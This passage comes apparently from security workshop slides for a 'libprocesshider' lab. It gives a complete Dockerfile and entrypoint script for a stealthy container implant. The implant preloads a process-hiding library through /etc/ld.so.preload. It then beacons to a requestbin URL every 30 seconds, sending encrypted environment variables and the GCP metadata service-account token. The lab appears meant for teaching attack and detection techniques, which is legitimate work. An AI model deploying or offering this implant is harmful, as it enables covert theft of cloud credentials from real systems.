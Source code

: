 When is all done, your Dockerfile should look like this.

```
FROM ubuntu:20.04
RUN groupadd -g 999 usertest && \
useradd -r -u 999 -g usertest usertest
RUN apt update && apt upgrade -y && apt install -y curl tini
COPY ./libprocesshider/libprocesshider.so /usr/local/lib/libso5.so
RUN echo "/usr/local/lib/libso5.so" >> /etc/ld.so.preload
COPY ./docker-entrypoint.sh /docker-entrypoint.sh
RUN chmod +x /docker-entrypoint.sh
USER usertest
# Go to requestbin.net and get a public url and replace below
ENV URL REQUESTBIN_URL
ENV UA "Mozilla/5.0 (BeOS; U; BeOS BePC; en-US; rv:1.8.1.7) Gecko/20070917 BonEcho/2.0.0.7"
# Replace HANDLE with your l33t hacker name or some other identifying designation
ENV USER HANDLE
# Replace password with a unique one of your own
ENV PW PASSWORD
ENTRYPOINT ["/usr/bin/tini", "--", "/docker-entrypoint.sh"]
```
> After pasting, hit `[ESC]`, then type `:wq`

### Slide 163 - Libprocess hider lab (cont.)

>`[ESC]` then type `:wq` if you haven't already from last slide

We're also going to edit the docker-entrypoint.sh file, it's easier to just replace the whole thing.
```
vi docker-entrypoint.sh
```

>vi Tip: just hit `dd` repeatedly to delete whole lines, then go into insert mode and paste the contents below
```
#!/usr/bin/env bash

if [ "shell" = "${1}" ]; then
  /bin/bash
else
 while true
 do
    sleep 30
    curl -s  -X POST -A "${UA}" -H "X-User: ${HANDLE}" -H "Cookie: `uname -a | gzip | base64 -w0`" -d \
`{ env && curl -s -H 'Metadata-Flavor:Google' http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token; } | gzip | openssl enc -e -aes-256-cbc -md sha512 -pbkdf2 -salt -a -pass "pass:${PW}" | base64 -w0` \
$URL
    echo
 done
fi
```
